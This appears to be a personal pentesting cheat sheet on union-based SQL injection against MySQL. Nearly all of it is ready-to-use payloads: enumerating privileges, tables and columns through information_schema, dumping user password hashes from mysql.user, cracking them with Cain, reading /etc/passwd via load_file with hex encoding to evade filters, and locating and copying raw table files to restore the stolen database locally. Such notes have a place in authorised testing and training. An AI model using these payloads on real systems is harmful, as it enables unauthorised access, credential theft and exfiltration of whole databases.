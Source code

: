 ```
payload = admin' union select null, concat(grantee,':----:', privilege_type,':----:', is_grantable) from information_schema.user_privileges;#
```

### Find all tables and columns from metadata

Use string `concatenation` to accommodate more data into single column.

```
payload = admin' union select null, concat(table_name,':----:',column_name) from information_schema.columns;#

// need limit to iterate 0 -> max ?
```

### Extracting password hash from mysql.user table

```
payload = admin' union select null, concat(user,':----:',password) from mysql.user;#
```

#### Crack hash with Cain

```
- there is no salt for mysql hash and it is based on SHA1
- Omit the * => that indicates the start of the hash
- MySQL hash -> Add to list -> provide hash and username -> crack Mysql sha1 hashes ->
- add more than one dictionary file to increase the cracking chances
```

### Arbitrary File Read

```
payload = admin' union select null, load_file('/etc/passwd');#

[+] hex encode the values when `/` or some keywords in the filename are filtered
[online] => http://www.asciitohex.com/
[python] => file = '0x' + ''.join("{:x}".format(ord(c)) for c in '/etc/passwd') => 0x2f6574632f706173737764

payload = admin' union select  null, load_file(0x2f6574632f706173737764);#
```

#### Steal entire database & restore locally

```
MySQL stores data in files.
Each database has its own subfolder and each table has three files associated with it
- table.MYI
- table.MYD
- table.frm

for example, default table mysql.user would be stored in three files - user.MYI, user.MYD and user.frm.

[+] how to find the location of mysql root folder
payload = admin' union select null, @@datadir;# =>  /var/lib/mysql/
so the probable location of those files => /var/lib/mysql/<database_name>/

[+] how to read those files:
- directory traversal with null byte injection
[TBD] => SQLi load_file() doen't working, probably file contains null bytes.

[+] restore the database in local kali box
Create a directory (i.e steal) inside /var/lib/mysql/ and copy the 3 files into that folder.
run mysql service:/usr/bin/mysqld_safe &
- show databases;
```